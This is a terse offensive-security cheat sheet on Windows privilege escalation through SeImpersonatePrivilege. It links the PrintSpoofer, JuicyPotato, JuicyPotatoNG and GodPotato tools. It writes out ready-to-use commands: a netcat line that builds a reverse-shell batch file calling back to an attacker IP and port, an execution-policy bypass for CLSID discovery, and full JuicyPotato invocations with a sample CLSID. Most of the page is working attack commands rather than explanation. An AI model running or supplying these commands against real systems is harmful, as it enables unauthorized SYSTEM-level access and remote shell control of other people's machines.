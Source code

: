 ### SeImpersonatePrivilege

whoami /all (privileges information)

SeImpersonatePrivilege = Enabled

```
Privilege Name                Description                               State   
============================= ========================================= ========
SeTcbPrivilege                Act as part of the operating system       Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

### Privilege Escalation 1

```Windows 10``` and ```Server 2016```/```2019```/```2022```

```LOCAL SERVICE```/```NETWORK SERVICE```/```iis apppool\defaultapppool```

Tool:[PrintSpoofer](https://github.com/itm4n/PrintSpoofer)

### Privilege Escalation 2

[JuicyPotato.exe](https://github.com/ohpe/juicy-potato/releases/tag/v0.1)

```cmd
echo C:\Windows\Temp\nc.exe -e cmd.exe <attacker ip> <attacker port> > rev.bat
```

[CLSID](https://github.com/ohpe/juicy-potato/tree/master/CLSID)

```cmd
powershell -ep bypass -f "C:\Windows\Temp\GetCLSID.ps1"
REM test
test_clsid.bat
type result.log
```

```cmd
C:\Windows\Temp\juicypotato.exe -p C:\Windows\Temp\rev.bat -l <attacker port> -t * -c <CLSID>
REM -t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
REM -p <program>: program to launch
REM -l <port>: COM server listen port
REM example
C:\Windows\Temp\juicypotato.exe -p C:\Windows\Temp\rev.bat -l 4444 -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
```

[JuicyPotatoNG](https://github.com/antonioCoco/JuicyPotatoNG)

```powershell
echo C:\Windows\Temp\nc.exe -e cmd.exe <attacker ip> <attacker port> > rev.bat
.\JuicyPotatoNG.exe -t * -p C:\Windows\Temp\rev.bat
```

[GodPotato](https://github.com/BeichenDream/GodPotato)